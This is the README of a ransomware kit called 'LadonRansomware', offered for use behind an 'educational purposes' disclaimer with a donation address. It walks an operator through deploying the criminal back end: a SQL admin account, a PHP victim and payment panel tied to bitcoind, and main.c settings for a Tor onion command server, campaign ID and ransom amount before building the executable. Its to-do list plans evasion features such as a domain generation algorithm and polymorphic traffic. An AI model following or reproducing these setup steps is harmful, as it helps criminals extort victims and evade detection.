 # LadonRansomware
LadonRansomware Educational Purposes.


I am not responsible for any damages or anything that might happen from this use.


This was written mainly on love of brian krebs.


His blog can be found here:
http://krebsonsecurity.com/


This was written while looking at his picture on my desk.


Like our work?


Want to donate:

3LcaAYVEQzboDLaZDnZcx6wkBEe3SyDcEd



Setup Instructions:

Create a new SQL table and install the untitled.sql file

The User and Password of the main Admin account:


     INSERT INTO  `users` (`id` ,  `username` ,  `password` ) VALUES (1, '8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918', '8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918');


can be edited, Change to SHA 256 of your password and username


       INSERT INTO  `users` (`id` ,  `username` ,  `password` ) VALUES (1, 'SHA256OFUSERNAMEHERE', 'SHA256OFPASSWORDHERE');


Once you have installed the SQL file, edit config.php 


    $dsn = 'mysql:host=localhost;dbname=dbnamehere'; // define host name and database name
    $username = 'root'; // define the username
    $pwd='passhere'; // password
    
    
edit this in cart.php, owner.php, victims.php



Once this is complete

make sure the assets.zip is unzipped so you have an assets and API folder in that folder.



If you have not already installed bitcoind go ahead and do that before this.


edit this in cart.php, owner.php, victims.php, config.php



     require_once 'api/RPC/includes/jsonRPCClient.php'; 
     $bitcoin = new jsonRPCClient('http://root:passhere@127.0.0.1:8332/');


I Highly recommend you bind the port only so localhost can access it. I also recommend that you store your private key of the wallet somewhere safe! Dont want those people to steal it! I also recommend a really good bitcoind password. I also recommend that you trim the tree so you dont donwload the whole blockchain...



Now login at owner.php

Create a new account and save the user ID. Then log in with that new account. 

Now time to build the EXE.

Find this in main.c

    #define DOMAIN "ns2yrncquekngvfe.onion"
    #define CAMP 35
    #define AMOUNT 300
    
Change domain to your domain. This is your onion domain!

Change CAMP to your User ID.

Change Amount to the amount you want. ( YOu can always change amount from panel)

Now you can build!



Future ToDo:

Add polymorphic scheme to traffic. 

Make DGA.

Make IAT self-reconstruct.


Want the ToDo to be done ? Then donate!
